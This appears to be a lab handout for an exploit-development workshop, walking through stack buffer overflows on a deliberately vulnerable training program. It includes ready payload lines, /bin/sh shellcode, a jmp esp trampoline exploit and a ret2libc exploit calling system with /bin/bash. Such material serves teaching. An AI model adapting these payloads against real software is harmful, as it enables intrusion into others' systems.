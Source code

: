 To get started
	You will need the files: segment_mem.c, wisdom.c, runescape.sh, pat_gen.py, pat_ind.py
	You will need gdb-peda to execute some of the commands.

Memory and the Stack
	Compile segment_mem.c
		gcc segment_mem.c -o segment_mem
	
	Run this binary to examine addresses in various memory segments:
		./segment_mem

Exploit Mitigations and Bypasses
	No Mitigations
		Compile wisdom.c without NX
			gcc wisdom.c -g -o wisdom.out -fno-stack-protector -z execstack
		
		Generate a cyclic pattern of length 300
			./pat_gen.py 300
		
		Compute the offset of the pattern
			./pat_ind.py [hexdigits]
		
		Display functions in the program
			gdb> info functions
		
		Print the address of shell function
			gdb> print shell
		
		Print escaped attack code to call shell function
			python -c 'print "A"*152 + r"\xfc\x85\x04\x08"'

		Execute wisdom.out while escaping input
			chmod +x runescape.sh
			./runescape.sh ./wisdom.out
		
		Ensure that pgrep will find the correct process
			ps -ef | grep wisdom
			
		Attach to gdb
			gdb -p $(pgrep wisdom)
		
		Detach from gdb
			gdb> detach
	
	Bypass ASLR, no NX with Trampoline
		Find useful ESP gadgets
			gdb-peda> jmpcall
		
		/bin/sh Shellcode from exploit-db in escaped format
			\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
			
		Print escaped ASLR bypass exploit code
			Python file: 
				sc = r"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
				nops = r"\x90" * 16
				addr =  r"\x8f\x8b\x04\x08" # This address contains a jmp esp
				
				print "A"*152 + addr + nops + sc
				
	
	Bypass NX with ret2libc
		Manually find address of "/bin/bash" string
			gdb> print wisdoms[1]
				$1 = 0x8048a08 "A great shell to use is /bin/bash"
			gdb> print wisdoms[1]+24
				$2 = 0x8048a20 "/bin/bash"
			
		Examine memory location as a string
			gdb-peda$ x/s 0x8048a20
				0x8048a20:	 "/bin/bash"
			
		
		Find addresses of functions
			gdb-peda$ p system
				$1 = {<text variable, no debug info>} 0xb7e503e0 <system>
			gdb-peda$ p exit
				$2 = {<text variable, no debug info>} 0xb7e431b0 <exit>
				
		Recompile wisdom.c with NX and no stack canaries
			gcc wisdom.c -g -o wisdom.out-nx -fno-stack-protector
			chmod +x runescape.sh
			./runescape.sh wisdom.out-nx
		
		Print escaped NX bypass exploit code
			Python file:
				addr_system_esc = r"\xe0\x03\xe5\xb7"
				addr_exit_esc = r"\xb0\x31\xe4\xb7"
				args = r"\x20\x8a\x04\x08"
				
				print "A"*152 + addr_system_esc + addr_exit_esc + args
